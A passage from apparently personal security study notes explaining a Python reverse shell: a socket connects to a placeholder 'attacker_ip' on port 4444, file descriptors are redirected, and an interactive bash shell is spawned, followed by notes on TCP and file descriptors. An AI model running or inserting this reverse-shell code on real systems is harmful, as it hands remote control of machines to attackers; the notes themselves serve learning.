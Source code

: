 ```python
subprocess.call(["/bin/bash", "-i"])
```

> [!question]- Why redirect first before spawning shell?
> Child processes inherit file descriptors from their parent. When you spawn the shell, it automatically inherits the redirected descriptors.
> ```python
> # 1. Create and connect socket
> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
> s.connect(("attacker_ip", 4444))
> 
> # 2. Redirect file descriptors to socket
> os.dup2(s.fileno(), 0)  # Now stdin points to socket
> os.dup2(s.fileno(), 1)  # Now stdout points to socket
> os.dup2(s.fileno(), 2)  # Now stderr points to socket
> 
> # 3. Spawn shell - it inherits the redirected descriptors
> subprocess.call(["/bin/bash", "-i"])
> ```
> 
> If you spawned the shell first, it would inherit normal stdin/stdout/stderr (from the exploited service or terminal), and redirecting them afterward would be much more difficult.

### 3. Interact with the Shell
Once connected, the target's shell is now controlled through your listener:
- Commands you type → sent over network → executed on target
- Output from target → sent over network → displayed on your machine

## Why TCP?
TCP is used because it:
1. Guarantees packet delivery
2. Ensures the correct order
3. Confirms reciept of data

You want these three things because if you type commands, and they are lost or sent out of order, unpredictable behavior happens on the shell

## Understanding File Descriptors

### What Are File Descriptors?
**File descriptors** are integers that represent open "files" (in Unix, almost everything is a file: actual files, network sockets, pipes, devices).

### The Standard Three
Every process starts with three file descriptors:
**0 = stdin** (standard input) - where the process reads input
**1 = stdout** (standard output) - where the process writes normal output
**2 = stderr** (standard error) - where the process writes error messages

### Normal Shell Behavior

